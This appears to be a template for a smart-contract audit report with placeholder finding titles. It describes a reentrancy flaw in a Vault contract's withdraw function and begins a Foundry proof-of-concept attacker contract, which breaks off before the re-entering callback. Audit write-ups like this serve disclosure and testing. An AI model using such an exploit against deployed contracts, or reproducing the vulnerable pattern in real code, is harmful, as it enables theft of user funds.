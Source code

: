 ```
| ID     | Title                                |
| :----- | :----------------------------------- |
| [L-01] | [Title of Low Risk Finding](#l-01-title-of-low-risk-finding) |

### Non-Critical & QA

| ID      | Title                    |
| :------ | :----------------------- |
| [NC-01] | [Title of QA Finding](#nc-01-title-of-qa-finding)      |
| [NC-02] | [Another QA Finding](#nc-02-another-qa-finding) |

### Gas Optimizations

| ID     | Title                        |
| :----- | :--------------------------- |
| [G-01] | [Title of Gas Optimization](#g-01-title-of-gas-optimization) |
| [G-02] | [Another Gas Optimization](#g-02-another-gas-optimization)  |

---

## High Risk Findings

### H-01: Title of High Risk Finding

- **Relevant Files:** `src/Vault.sol`

#### Vulnerability Details

The `withdraw()` function transfers Ether via `.call{value: amount}("")` before updating the user's balance. This violates the Checks-Effects-Interactions pattern. An attacker can create a malicious contract with a `receive()` or `fallback()` function that re-enters the `withdraw()` function, allowing them to drain more funds than their balance permits.

#### Impact

This vulnerability allows a malicious actor to drain the entire Ether balance of the `Vault` contract. This is a direct and total loss of all user funds held in the contract.

#### Proof of Concept (PoC)

A Foundry test case demonstrating the re-entrancy attack.

```solidity
// test/Reentrancy.t.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/Vault.sol";

contract Attacker {
    Vault public vault;
    uint256 public attackCount = 0;

    constructor(address _vault) {
        vault = Vault(_vault);
    }
    
    function attack() external payable {
        vault.deposit{value: msg.value}();
        vault.withdraw();
    }

```